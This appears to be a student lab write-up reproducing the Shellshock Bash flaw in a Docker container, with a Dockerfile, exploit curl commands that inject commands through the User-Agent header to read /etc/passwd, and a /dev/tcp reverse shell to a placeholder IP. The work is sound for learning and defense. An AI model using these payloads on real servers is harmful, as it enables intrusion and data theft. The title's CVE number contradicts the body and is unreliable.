 # CVE Reproducen: Shellshock (CVE-2022-30190)

### Details

CVE ID: <br>
**CVE-2022-30190**

Vulnerability Name: <br>
**Shellshock**

Vulnerable Software: <br>
**GNU Bash (versions < 4.3)**

Vulnerability Type: <br>
**Remote Code Execution (via crafted environment variables)**

Severity: <br>
**9.8 CVSS v3 (Critical), 9.3 CVSS v2 (High)**

---

### Summary

CVE-2014-6271, known as "Shellshock", is a critical vulnerability in GNU Bash that allows attackers to execute arbitrary commands by injecting specially crafted environment variables. It was discovered in 2014 and affects systems where Bash is used to process environment variables, particularly in network services like CGI scripts on web servers. 

The bug occurs because Bash improperly executes function definitions passed as environment variables, and mistakenly continues parsing and executing commands following the function.

---

### Example of the Vulnerability

To test if a version of Bash is vulnerable, use:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If the Bash version is vulnerable, it will output:
```
VULNERABLE
test
```

### How it works

-	`env x='() { :;}; echo VULNERABLE'` creates an environment variable x that looks like a function definition.
-	Bash is supposed to define x as a function and ignore the rest.
-	However, vulnerable versions of Bash continue parsing after the function, executing echo VULNERABLE, which is the flaw.

---

### Test Environment Setup

•	OS: Ubuntu 14.04

•	Bash version: 4.3.8 (unpatched, vulnerable confirmed via env test)

•	Web server: Apache2 with CGI enabled

•	Vulnerable script: Bash-based CGI script at /usr/lib/cgi-bin/vulnerable.sh

<br>

I first tested this in a raw Ubuntu 14.04 virtual machine:

<img src="./Screenshots/Screenshot1.png" width=80% height=80%><br><br>

`Bash –-version`:

<img src="./Screenshots/Screenshot2.png" width=80% height=80%><br><br>

Then ran:

`env x='() { :;}; echo VULNERABLE' bash -c "echo test"`:

<img src="./Screenshots/Screenshot3.png" width=80% height=80%><br><br>

Result confirmed it was vulnerable.

---

### Turning into a Docker Image

To make this reproducible and portable, I created a simple Docker container using Ubuntu 14.04 with Apache and a vulnerable Bash CGI script:

```dockerfile
FROM ubuntu:14.04

# Install Apache, build tools, wget, dos2unix, etc.
RUN apt-get update && \
    apt-get install -y apache2 wget build-essential curl dos2unix && \
    apt-get install -y --no-install-recommends software-properties-common && \
    apt-get clean

# Install Bash 4.3 (vulnerable version)
WORKDIR /tmp
RUN wget http://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz && \
    tar -xvzf bash-4.3.tar.gz && \
    cd bash-4.3 && \
    wget http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-001 && 
    patch -p0 < bash43-001 && \
    ./configure && make && make install && \
    bash --version

# Replace the system's bash with the vulnerable one
RUN mv /bin/bash /bin/bash.bak && ln -s /usr/local/bin/bash /bin/bash

RUN a2enmod cgi
RUN mkdir -p /usr/lib/cgi-bin
COPY vulnerable.sh /usr/lib/cgi-bin/vulnerable.sh
RUN dos2unix /usr/lib/cgi-bin/vulnerable.sh
RUN chmod +x /usr/lib/cgi-bin/vulnerable.sh

EXPOSE 80

CMD ["/bin/bash", "-c", "rm -f /var/run/apache2/apache2.pid && apache2ctl -D FOREGROUND"]
```

And the `vulnerable.sh` CGI script:
```.sh
#!/bin/bash
echo "Content-type: text/html"
echo
echo "Vulnerable CGI script"
```

Built and ran with:
```cmd
docker build -t shellshock_lab .
docker run --rm -it -p 8080:80 shellshock_lab
```

Then accessed at:
```html
http://localhost:8080/cgi-bin/vulnerable.sh
```

---

### How to use the Docker

On your machine, run `sudo docker pull oscaryr/shellshock_lab:latest` to pull the docker:

<img src="./Screenshots/Screenshot4.png" width=80% height=80%><br><br>

Then, `sudo docker run -p 8080:80 oscaryr/shellshock_lab:latest` to run the docker:

<img src="./Screenshots/Screenshot5.png" width=80% height=80%>

> Note: **The AH00558: apache2: message can be safely ignored**

<br><br>

Browse to `localhost:8080/cgi-bin/vulnerable.sh` to verify if the Shellshock CGI is working:

<img src="./Screenshots/Screenshot6.png" width=80% height=80%><br><br>

The terminal that running the docker won’t be interactable, we need to open a new terminal and access to the docker:

`sudo docker ps` to show existing dockers
<img src="./Screenshots/Screenshot7.png" width=80% height=80%><br><br>

`sudo docker exec -it [container_name or ID] /bin/bash` to interact with the docker
<img src="./Screenshots/Screenshot8.png" width=80% height=80%><br><br>

We can now exploit the Bash vulnerability via the CGI script using a malicious HTTP header:

#### Exploit Commands

1. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost/cgi-bin/vulnerable.sh`
   
   <img src="./Screenshots/Screenshot9.png" width=80% height=80%><br>

   - Apache passes all HTTP headers as environment variables to the CGI script.
   - The User-Agent header becomes an environment variable, like:
     `export HTTP_USER_AGENT="() { :; }; /bin/bash -c 'cat /etc/passwd'"`
   - Since Bash is vulnerable, it doesn’t stop after defining the fake function, and continues to execute the rest. In this case, it's `cat /etc/passwd`.
   - This is how remote command execution happens.

<br>

2. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://localhost/cgi-bin/vulnerable.sh`

   <img src="./Screenshots/Screenshot10.png" width=80% height=80%><br><br>

3. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'touch /tmp/shellshock_worked'" http://localhost/cgi-bin/vulnerable.sh`
   <img src="./Screenshots/Screenshot11.png" width=80% height=80%><br><br>

#### Reverse Shell Demonstration

Open another new terminal, set up the listener:

<img src="./Screenshots/Screenshot12.png" width=80% height=80%><br><br>

Back to the interactive docker terminal:
```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'" \
http://localhost/cgi-bin/vulnerable.sh
```

<img src="./Screenshots/Screenshot13.png" width=80% height=80%><br><br>

Result:

<img src="./Screenshots/Screenshot14.png" width=80% height=80%>

> Note: **To stop the terminal that running the docker, on the second terminal, exit the interaction of docker, then use sudo docker stop [Container Name or ID]**

---

### Patch & Mitigation

- Upgrade to a patched version of Bash (≥ 4.3.27)
- Use security tools like AppArmor or SELinux to restrict CGI behavior
- Avoid using Bash for CGI scripts

To verify it’s patched, run the same command:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If it only outputs:
```bash
test
```

Then it’s not vulnerable:

<img src="./Screenshots/Screenshot15.png" width=80% height=80%><br><br>

---

### Reflection

I learned a lot of important security lessons from the Shellshock vulnerability (CVE-2014-6271), particularly about how Bash parses environment variables and how CGI scripts pass HTTP headers into shell environments. It showed how simple it is to use HTTP headers as attack vectors in the scenario where input sanitization is inadequate. This vulnerability helped me to gain hands-on experience in building vulnerable environments within Docker, allowing me to better understand the risks of legacy systems and how they can be exploited in the real world. Even though Shellshock is relatively simple and straightforward, it still serves as a reminder of how crucial it is to properly validate input and to fix security holes in out-of-date systems in order to stop significant exploitation.

